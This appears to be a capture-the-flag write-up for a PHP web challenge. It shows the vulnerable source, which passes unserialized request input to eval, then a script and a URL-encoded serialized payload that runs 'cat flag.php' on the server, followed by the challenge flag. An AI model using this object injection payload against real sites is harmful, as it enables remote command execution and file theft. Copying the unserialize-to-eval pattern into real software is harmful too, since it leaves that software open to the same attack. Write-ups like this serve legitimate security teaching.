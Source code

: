 # whats-your-name-part1 : Web

Flag Proof:`CTF{3346176ac1e79283318b4f69587c4b29b06d7e1fe385
3a4f37bb5442c80ba3fd}`

## Summary:

- Taking a look at the source code of the page, we see a comment `?source=`
- Using it as a `GET` param, we can see the source code of the page which is using some serialized php objects.

```php
<?php

error_reporting(0);
(isset($_GET['source']) AND show_source(__FILE__) AND die()); 

    class PHPObjectInjection{
        public $inject;
        function __construct(){
        }
        function __wakeup(){
            if(isset($this->inject)){
                eval($this->inject);
            }
        }
    }
    if(isset($_REQUEST['name'])){  
        $var1=unserialize($_REQUEST['name']);
        if(is_array($var1)){
            echo "<br/>".$var1[0]." - ".$var1[1];
        }
    }
    else{
        echo "What's your name? Part 1";
    }
?>

<!-- /?source -->
```

- it gets from a `GET` param `name`. Using this php code i  create my serialized object to exploit it and to give us the flag.

```php
<?php

 class PHPObjectInjection{
    public $inject;

}
$obj = new PHPObjectInjection();
$obj->inject =  "system('cat flag.php | base64');";

echo serialize($obj);
?>
```

- payload (i like using Base64 encoding as i know for sure the output will not be processed)  :
    - `O:18:%22PHPObjectInjection%22:1:{s:6:%22inject%22;s:32:%22system(%27cat%20flag.php%20|%20base64%27);%22;}`
- Passing it in browser/burp/curl will give us the base64 encoded string

![Untitled](whats-your-name-part1%20Web%20cae8a847902f4b39b94e320f535226e3/Untitled.png)

- Decoding it gives us the flag

![Untitled](whats-your-name-part1%20Web%20cae8a847902f4b39b94e320f535226e3/Untitled%201.png)
